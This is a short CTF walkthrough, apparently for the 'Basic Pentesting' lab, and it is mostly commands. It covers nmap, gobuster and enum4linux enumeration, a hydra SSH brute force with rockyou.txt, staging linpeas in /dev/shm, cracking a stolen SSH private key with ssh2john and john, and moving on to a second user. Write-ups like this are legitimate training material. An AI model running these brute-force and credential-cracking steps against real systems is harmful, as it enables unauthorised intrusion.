





## 3. Basic Pentesting

```
nmap -sC -sV <IP>
```

```
gobuster dir -u http://10.49.177.197 -w dirbuster/wordlists/directory-list-2.3-medium.txt
```

We found 2 files inside development folder and it talks about weak password and ssh login

We also found about Apache Tomcat server running

```
enum4linux -a <IP>
```

Use password as anonymous

Here we will find our user



Now we will try to brute force passwords using

We found our 2 usernames kay and jan

Let us find password using hydra

```
hydra -l jan -P rockyou.txt 10.48.190.165 ssh
```

We found password



Let us do ssh login

```
ssh jan@<IP>
```

Now I will transfer linpeas file to this folder using

```
find / -name "linpeas.sh" 2>/dev/null
```

```
cd <path>
```

```
chmod +x linpeas.sh
```

In your machine

```
scp linpeas.sh jan@<IP>:/dev/shm
``` 

Now we have linpeas inside /dev/shm in victim’s system

We found a whole big RSA key let us copy this to a file



Copy this file into a file with name rsa_key

```
ssh2john rsa_key > pass.hash
```

First save this into a hash and then we will use ssh2john to crack it

```
john --wordlist=rockyou.txt pass.hash
```



```
ssh -i /home/kay/.ssh/id_rsa kay@1<IP>
```

Now we were in jan’s machine now let’s log into kay’s machine

We are into kay

```
cat pass.bak
```


